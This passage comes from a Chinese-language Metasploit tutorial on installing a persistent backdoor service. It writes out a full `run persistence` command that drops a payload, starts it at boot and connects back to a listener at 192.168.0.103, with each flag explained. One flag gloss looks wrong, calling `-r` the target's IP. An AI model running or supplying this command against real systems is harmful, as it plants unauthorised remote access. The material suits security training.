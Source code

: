 ## Metasploit 持久后门

在本部分中，我们将学习使用持久后门。它是一个在目标系统中安装后门服务的 MeterMeter 脚本。因此，输入`run persistence -h`以显示可用于持久后门的所有命令。

![Metasploit persistent backdoor](img/3589_10_35.jpg)

理解可用命令后，输入`run persistence -A -L C:\\ -S -X -p 445 -i 10 -r 192.168.0.103`。

此语法中的命令解释如下：

*   `A`：用于自动启动有效负载处理器
*   `L`：目标主机中用于丢弃有效负载的位置
*   `S`：用于系统引导时自动启动代理
*   `p`：监听反向连接的端口号
*   `i`：新连接的时间间隔
*   `r`：目标机器的 IP 地址

现在，我们运行持久性后门脚本，如以下屏幕截图所示：

![Metasploit persistent backdoor](img/3589_10_36.jpg)
